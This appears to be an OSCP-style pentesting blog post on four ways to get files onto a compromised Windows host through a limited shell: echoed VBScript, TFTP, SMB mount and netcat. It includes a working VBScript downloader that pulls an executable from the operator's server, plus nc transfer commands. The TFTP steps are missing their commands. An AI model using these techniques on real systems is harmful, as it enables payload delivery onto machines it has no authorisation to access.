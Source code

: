 ```yaml
---
layout: post
title: "4 Ways to Transfer Files With a Limited Shell"
date: 2017-04-22 08:42:48
image: '/assets/img/'
description: How I transfer files to a windows 
tags: oscp
categories: OSCP HowTo
twitter_text: Transfering Files With a Limited Shell
---
```


Commonly during pentests I might be stuck on getting a file over to a system with only a limited shell. To be honest, this problem has mostly occurred to me on Windows so the solutions below will all work on Windows.

# Echo One Line at a Time

The first method is to prefix the “echo” command to the beginning of each line and redirect the output to a file. You would then be able to simply paste the script into the limited shell and your file will be transferred. This method would really only be useful to transfer ASCII only files. However, you would be able to transfer a vbscript of PowerShell file to the victim and then use that to download the actual file.

For example, the following script:

```VB.net
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.0.0.100/file.exe", False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\admin\Desktop\file.exe", 2 '
end with
```

Would get “echo” prefixed and “>> down.vbs” appended using the following commands:

```bash
sed -i -e 's/$/echo /' down.vbs
sed -i -e 's/$/ \>\> down.vbs/' down.vbs
```

Make sure there are no empty spaces or you will get “ECHO is on.” added into your output. All that is left is to paste your script into your shell and viola! You have transferred a file.

Another option to transfer a non-ascii file is to encode it, transfer it using the echo method, and decode it on the other side but I prefer loading a downloader.

You can also use this method if you have limited RCE through a web application and use Burp’s intruder to run the commands. If you decide to go down this route, make sure that you throttle intruder so that the “echo” commands do not run out of order.

# TFTP

Another other option is to start up a TFTP server and use windows native TFTP client to connect to your server. Note that only Windows XP had tftp enabled by default. Windows Vista to Windows 10 all need to be enabled.
On the server
Set up the folder:
Start the server:
Move your file:
On the Client
Download the file:

# SMB Mount

The next option would be to set up an SMB share on a server (Could be on your kali box or another windows server in the network that has already been compromised). You can mount the SMB share to the Windows victim using the following command:

```bat
net use Z: \\host\share /PERSISTENT:YES
```

# Netcat

This one is the classic use of the nc command. Obviously, this would only work if you already have nc or ncat installed on the windows host, but hey, maybe you got lucky. 
On the host you are trying to transfer to run:

```bash
nc –l –p 3000 > file_name
```
On the host you are trying to transfer from run:

```bash
nc ipOrHostname 3000 < file_name
```
